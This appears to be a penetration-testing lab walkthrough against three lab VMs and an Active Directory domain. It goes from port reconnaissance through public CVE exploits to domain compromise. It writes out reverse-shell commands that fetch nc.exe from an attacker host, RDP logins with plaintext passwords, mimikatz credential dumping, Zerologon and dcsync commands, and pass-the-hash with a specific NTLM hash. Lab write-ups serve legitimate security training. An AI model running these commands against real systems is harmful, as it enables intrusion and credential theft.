## Introduce



## Reconnaissance
### 1. Port
* VM1

  

  

* VM2

  

  

  

  

* VM3

  

  

  

### Applications
* VM1
  1. Port 5989

     

  2. Port 135 & 445

     

     

     

* VM2
  1. Port 5989

     
  
  2. Port 135 & 445

     

* VM3
  1. 8443

     
    
  2. 5001

     
    
## Exploit
* CVE-2020-10189
`https://srcincite.io/pocs/src-2020-0011.py.txt`

  

  

  

* CVE-2020-14008
`https://github.com/JackHars/cve-2020-14008`

  

  

  

  

* File Upload
`curl http://192.168.45.167:6600/nc.exe -o C:\Windows\Temp\nc.exe`
`C:\Windows\Temp\nc.exe 192.168.45.204 9963 -e powershell`
`xfreerdp3 /v:192.168.126.95 /u:dave2 /dynamic-resolution /d:secure.secura.yzx /p:password123\!`
`\\192.168.45.243\share\nc.exe 192.168.45.243 9963 -e powershell`

  

## Lateral Movement in Active Directory
* BloodHound
`Import-Module .\Sharphound.ps1`
`Invoke-BloodHound -CollectionMethod All -OutputDirectory "C:\Windows\Temp\bloodhound" -OutputPrefix "corp audit"`

  

* mimikatz
    1. `sekurlsa::logonpasswords`

       

* winPeas
`xfreerdp3 /v:192.168.126.95 /u:administrator /dynamic-resolution /d:secure.secura.yzx /p:Reality2Show4\!.\?`

  

## Zerologon Abuse
`privilege::debug`
`lsadump::zerologon /target:192.168.178.97 /account:dc01$`



`lsadump::zerologon /target:192.168.178.97 /account:dc01$ /exploit`



`lsadump::dcsync /domain:secura.yzx /dc:dc01 /user:Administrator /authuser:dc01$ /authdomain:main /authpassword:"" /authntlm`



`impacket-wmiexec -hashes :d38e7c66048f80fd9566ab85afca76b1 secura/administrator@192.168.178.97`







`impacket-secretsdump -sam sam.hive -system system.hive -security security.hive LOCAL`



`python3 reinstall_original_pw.py dc01 192.168.178.97 aad3b435b51404eeaad3b435b51404ee`



